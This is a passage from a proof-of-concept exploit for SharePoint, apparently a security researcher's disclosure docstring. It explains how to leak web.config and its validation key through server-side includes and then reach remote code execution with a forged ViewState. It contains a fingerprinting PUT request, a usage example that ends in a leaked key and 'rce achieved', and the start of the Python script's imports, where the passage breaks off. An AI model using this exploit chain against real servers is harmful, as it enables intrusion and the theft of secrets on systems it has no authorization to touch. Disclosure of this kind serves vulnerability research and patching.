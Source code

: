 At *[1]*, the code performs a databind and accesses the data from the datasource (in this case it's our controlled serverside http header). The data returned must be valid xml so that it can be processed via our crafted xslt. Then at *[2]* the code calls `DataFormWebPart.RunatChecker.IsMatch` on our controlled `_partContent`. This checks for an instance of `runat=server` in the supplied xml. However, we can't put that in there because we can't register any prefixes (registration is probably not possible due to the <% not being a valid xml tag). But I found a way to pass the check by using HTML server controls which can include a `runat=server`.

At *[3]* the code calls `VerifyControlOnSafeList` with the false flag, meaning our input can use server-side includes. Lucky for us, includes are valid xml, so we can stuff them into our `_partContent` and later at *[4]* they are parsed and finally added to the page at *[5]*.

This allows an us to leak the complete `web.config` file, including the Validation Key which is enough to generate a malicious serialized viewState and trigger rce via deserialization.

## Fingerprint:

For detecting vulnerable versions before exploitation, you can use this:

```
PUT /poc.aspx HTTP/1.1
Host: [target]
Content-Length: 67

<asp:Literal runat="server" Text="<%$SPTokens:{ProductNumber}%>" />
```

Then https://[target]/poc.aspx should return 16.0.10364.20001.

## Credit:

Steven Seeley (mr_me) of Qihoo 360 Vulcan Team

## Example:

For testing, download ysoserial.net and store it in a folder called `yss`.

researcher@DESKTOP-H4JDQCB:~$ ./poc.py
(+) usage: ./poc.py <SPSite> <user:pass> <cmd>
(+) eg: ./poc.py win-3t816hj84n4 harryh@pwn.me:user123### mspaint
(+) eg: ./poc.py win-3t816hj84n4/sites/test harryh@pwn.me:user123### notepad

researcher@DESKTOP-H4JDQCB:~$ ./poc.py win-3t816hj84n4 harryh@pwn.me:user123### notepad
(+) leaked validation key: 55AAE0A8E646746523FA5EE0675232BE39990CDAC3AE2B0772E32D71C05929D8
(+) triggering rce, running 'cmd /c notepad'
(+) done! rce achieved
"""
import os
import re
import sys
import urllib3
import requests
import subprocess
from platform import uname
from requests_ntlm2 import HttpNtlmAuth
from urllib.parse import urlparse
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
